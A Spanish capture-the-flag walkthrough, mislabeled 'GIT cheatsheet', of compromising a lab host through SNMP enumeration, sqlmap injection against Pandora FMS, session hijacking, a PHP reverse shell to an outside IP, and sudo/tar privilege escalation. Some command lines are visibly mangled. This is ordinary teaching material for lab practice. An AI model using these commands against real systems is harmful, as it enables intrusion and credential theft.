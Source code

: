 ```yaml
---
title: GIT cheatsheet
published: True
---
```

# [](#header-1)GIT cheatsheet

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#desarrollo">Desarrollo</a>



Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```
Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de este <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">CVE</a>, no se pudo establecer una shell. Pero si fue posible hacer algo con este  <a href="https://shells.systems/pandorafms-v7-0ng-authenticated-remote-code-execution-cve-2019-20224/">articulo</a> Asi que copie el URL y lo pegue para obtener mi cockie de admin, y funciono. Ahora que somos admin del FMS, termine en el archivo de administrador del dashboard.

Intente cargar un shell de php, pero no funciono. Asi que cargue una webshell y usandola para obtener una shell.

```sc
php -r '$sock=fsockopen("10.10.14.135",9602);exec("/bin/sh -i<&3>&32>&3");'
``` 
Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hayq ue revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.


